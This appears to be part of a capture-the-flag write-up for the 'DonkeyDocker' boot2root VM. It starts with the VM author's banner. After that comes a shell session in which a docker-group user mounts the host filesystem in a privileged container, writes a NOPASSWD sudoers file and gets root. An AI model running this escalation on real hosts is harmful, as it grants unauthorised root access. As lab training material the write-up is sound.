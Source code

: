 ```
                             Made with <3 v.1.0 - 2017

This is my first boot2root - CTF VM. I hope you enjoy it.
if you run into any issue you can find me on Twitter: @dhn_
or feel free to write me a mail to:

 - Email: dhn@zer0-day.pw
 - GPG key: 0x2641123C
 - GPG fingerprint: 4E3444A11BB780F84B58E8ABA8DD99472641123C

Level:       I think the level of this boot2root challange
             is hard or intermediate.

Try harder!: If you are confused or frustrated don't forget
             that enumeration is the key!

Thanks:      Special thanks to @1nternaut for the awesome
             CTF VM name!

Feedback:    This is my first boot2root - CTF VM, please
             give me feedback on how to improve!

Looking forward to the write-ups!

```
```
donkeydocker:~$ whoami
orwell

uname -a
Linux donkeydocker 4.9.17-0-grsec #1-Alpine SMP Thu Mar 23 09:59:13 GMT 2017 x86_64 Linux
```

Gives us the machine information
We might have a docker in our hands, says the name itself ;)

Let's see more.
```
donkeydocker:~$ id
uid=1000(orwell) gid=1000(orwell) groups=101(docker),1000(orwell)
```

Yep we're on group docker.

Now time for us to break out of this container and do some priv esc,
So far I have not done any priv esc on Docker, let's give it a go!

We played around a bit with Docker.
```
docker run --privileged --interactive --tty --volume /:/host bash
bash-4.4# echo "orwell ALL=(ALL) NOPASSWD: ALL" > /host/etc/sudoers.d/foo
bash-4.4# exit
exit
donkeydocker:~$ sudo -i
donkeydocker:~# hostname
donkeydocker
donkeydocker:~# whoami
root
```
